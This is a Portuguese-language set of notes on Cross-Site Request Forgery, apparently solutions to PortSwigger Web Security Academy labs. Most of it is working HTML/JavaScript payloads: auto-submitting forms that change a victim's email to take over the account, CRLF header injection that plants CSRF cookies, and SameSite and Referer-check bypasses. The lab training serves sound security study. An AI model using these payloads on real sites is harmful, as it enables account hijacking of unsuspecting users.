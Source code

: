 # CSRF - Cross Site Request Forgery

Probabilidade: $${\color{red}alta}$$.

O CSRF vai focar em alterar dados da vítima, principalmente seu e-mail. Trocando o e-mail dela, você consegue solicitar um reset de senha e obter acesso a conta.

Um payload de CSRF simples, sem defesa alguma:
```html
<html>
    <body>
        <form action="https://0a430077030c55ff869f58fa00960085.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

<br>

## Laboratórios

**CSRF Where Token Validation Depends on Request Method**

Mude o método da requisição de POST para GET.
```
<img src="https://0ac700da0343bbb482108f6f00a40001.web-security-academy.net/my-account/change-email?email=attacker@evil.net">
```

<br>
<br>

**CSRF Where Token Validation Depends on Token Being Present**

Remova o token CSRF da requisição.
```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
    document.forms[0].submit();
</script>
```

<br>
<br>

**CSRF Where Token is Not Tied to User Session**

Pegue o CSRF do seu usuário no código-fonte e utilize no payload.
```html
<html>
    <body>
        <form action="https://0a34005103588da98211cbbd004e0017.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="YsoehtJWJkSAyLb1Ubrqv4weLsDoQCMm" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

<br>
<br>

**CSRF Where Token is Tied to Non-Session Cookie**

Ao enviar uma request de troca de e-mail, observe que existem dois tokens CSRF, um como cookie e outro no corpo da requisição.

Nesse caso, o valor que está sendo verificado é o do cookie, assim, precisamos setar um CSRF válido para a vítima atráves disso.

Ao utilizar a função de buscar, observamos o seguinte cookie na resposta:
```
Set-Cookie: LastSearchTerm=test;
```

Podemos abusar disso para setar um novo cookie para a vítima com esse payload:
```
/?search=test
Set-Cookie: csrfKey=YOUR-KEY; SameSite=None

# Encodado em URL:
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

Agora podemos criar o payload do CSRF que adiciona esse cookie e manda a request de troca de e-mail.
```html
<html>
  <body>
    <form action="https://0aba006804d08c8e822188870010007d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test@gmail.com" />
      <input type="hidden" name="csrf" value="TAIGnjd3gMpisovtC7xeVt6zHAGVn1NE" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0aba006804d08c8e822188870010007d.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=fnWnRvXgurFNEVnHXx1o1GlAMpzYF5WT%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

<br>
<br>

**CSRF Where Token is Duplicated in Cookie**

O caso é semelhante ao lab de cima, mas os tokens precisam ser iguais (não necessariamente válidos), tanto no cookie, tanto no corpo da requisição.

Podemos criar o payload do CSRF que adiciona esse cookie e mandar a request de troca de e-mail, visto que o valor do token não está associado a sessão do usuário e sim apenas verificando se ambos os valores são iguais.
```html
<html>
  <body>
    <form action="https://0aba006804d08c8e822188870010007d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hijacked@gmail.com" />
      <input type="hidden" name="csrf" value="anyValue" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0aba006804d08c8e822188870010007d.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=anyValue%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

<br>
<br>

**SameSite Lax Bypass via Method Override**

Altere o método da request para GET e adicione o parâmetro `_method=POST`:
```
/my-account/change-email?email=ww%40gmail.com&_method=POST
```

Exploit:
```
<script>
document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

<br>
<br>

**SameSite Strict Bypass via Client-Side Redirect**
```
/post/comment/confirmation?postId=7../../../my-account/change-email?email=ww%40gmail.com%26submit=1
```

Exploit:
```
script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```

<br>
<br>

**SameSite Lax Bypass via Cookie Refresh**

Utilize um exploit de CSRF normal, envie a vítima, aguarde de 5 a 10 segundos e envie novamente.

<br>
<br>

**CSRF Where Referer Validation Depends on Header Being Present**

Adicione `<meta name="referrer" content="never">` no exploit.
```html
<html>
<meta name="referrer" content="never">
    <body>
        <form action="https://0a9500a2031b3160836619a400ab009b.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

<br>
<br>

**CSRF with Broken Referer Validation**

Identifique que a função de e-mail é vulnerável a CSRF, porém, ao mudar o Referer a resposta é "Invalid referer header".

A requisição só é aceita quando o valor do referer contém o domínio esperado em algum lugar.

Neste caso, precisamos adicionar o seguinte header no servidor de exploit:
```
Referrer-Policy: unsafe-url
```

E no exploit, adicionar o domínio como terceiro argumento na função `history.pushState`:
```html
<html>
    <body>
        <form action="https://0aa000a4047c6a358042e98a00f300cc.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            history.pushState("", "", "/?0aa000a4047c6a358042e98a00f300cc.web-security-academy.net")
            document.forms[0].submit();
        </script>
    </body>
</html>
```
